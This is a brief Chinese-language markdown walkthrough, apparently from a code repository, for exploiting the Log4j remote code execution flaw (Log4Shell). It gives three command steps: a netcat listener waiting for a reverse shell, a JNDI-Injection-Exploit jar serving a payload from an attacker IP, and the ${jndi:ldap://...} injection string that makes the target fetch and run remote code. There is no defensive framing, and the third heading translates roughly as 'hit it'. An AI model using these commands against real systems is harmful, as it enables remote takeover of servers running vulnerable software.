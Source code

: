 ### 1.服务器先起监听

```sh
nc -lvnp 1234
```

![image-20211210224502476](log4jrce/image-20211210224502476.png)

### 2.起服务

```sh
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -A [ip] -C "[payload]"
```

![image-20211210224916380](log4jrce/image-20211210224916380.png)

### 3.干它

```sh
${jndi:ldap://[ip]:[port]/[xxxx]}
```

![image-20211210224949536](log4jrce/image-20211210224949536.png)
